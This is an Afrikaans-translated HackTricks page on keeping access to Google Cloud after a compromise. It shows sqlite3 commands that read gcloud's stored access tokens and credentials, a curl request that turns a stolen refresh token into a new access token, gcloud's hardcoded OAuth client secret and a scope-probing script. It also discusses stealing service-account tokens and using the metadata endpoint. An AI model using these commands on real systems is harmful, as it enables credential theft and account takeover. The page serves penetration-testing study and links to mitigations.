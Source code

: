 # GCP - Nie-svc Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

Hierdie is nuttige tegnieke sodra jy op een of ander manier sekere GCP-legitimasie of 'n masjien wat in 'n GCP-omgewing loop, gekompromitteer het.

## Token Ontvoering

### Geauthentiseerde Gebruiker-Token

Om die **huidige token** van 'n gebruiker te kry, kan jy hardloop:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Kyk op hierdie bladsy hoe om **hierdie token direk te gebruik met gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Om die besonderhede te kry om 'n nuwe toegangsteken te **genereer**, hardloop: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Dit is ook moontlik om hernuwingsleutels te vind in **`$HOME/.config/gcloud/application_default_credentials.json`** en in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Om 'n nuwe verfriste toegangskode te kry met die **hernuwingsleutel**, kliënt-ID, en kliënt-geheim hardloop:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die geldigheid van die hernuwingsleutels kan bestuur word in **Admin** > **Sekuriteit** > **Google Cloud-sessiebeheer**, en dit is standaard op 16 uur ingestel, alhoewel dit op nooit verval gestel kan word:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Outeursvloei

Die outentiseringsvloei wanneer iets soos `gcloud auth login` gebruik word, sal 'n venster in die blaaier oopmaak en nadat al die omvang geaanvaar is, sal die blaaier 'n versoek soos hierdie een stuur na die http-poort wat oopgemaak is deur die instrument:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dan sal gcloud die toestand en kode gebruik met 'n paar hardgekoppelde `client_id` (`32555940559.apps.googleusercontent.com`) en **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) om die **finale verfris-token data** te kry.

{% hint style="danger" %}
Let daarop dat die kommunikasie met localhost in HTTP is, so dit is moontlik om die data te onderskep om 'n verfris-token te kry, maar hierdie data is net een keer geldig, so dit sal nutteloos wees, dit is makliker om net die verfris-token uit die lêer te lees.
{% endhint %}

### OAuth Onderwerpe

Jy kan al die Google-onderwerpe vind in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) of kry hulle deur uit te voer:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Dit is moontlik om te sien watter scopes die aansoek wat **`gcloud`** gebruik om te verifieer, kan ondersteun met hierdie skrip:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Na uitvoering is nagegaan dat hierdie program hierdie scopes ondersteun:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
Dit is interessant om te sien hoe hierdie app die **`drive`** scope ondersteun, wat 'n gebruiker kan toelaat om van GCP na Workspace te eskaleer as 'n aanvaller daarin slaag om die gebruiker te dwing om 'n token met hierdie scope te genereer.

**Kyk hoe om dit te** [**misbruik hier**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Diensrekeninge

Net soos met geauthentiseerde gebruikers, as jy die **privaatsleutel-lêer** van 'n diensrekening kan **kompromitteer**, sal jy dit gewoonlik **so lank as wat jy wil kan toegang**.\
Maar, as jy die **OAuth-token** van 'n diensrekening steel, kan dit selfs meer interessant wees, want selfs al is hierdie tokens standaard net vir 'n uur nuttig, as die **slagoffer die privaat API-sleutel verwyder, sal die OAuth-token nog steeds geldig wees tot dit verval**.

### Metadata

Vanzelfsprekend, solank as wat jy binne 'n masjien hardloop wat in die GCP-omgewing hardloop, sal jy in staat wees om die diensrekening wat aan daardie masjien gekoppel is, te **benader deur die metadata-eindpunt te kontak** (let daarop dat die OAuth-tokens wat jy in hierdie eindpunt kan benader, gewoonlik beperk word deur scopes).

### Regstellings

Sommige regstellings vir hierdie tegnieke word verduidelik in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Verwysings

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
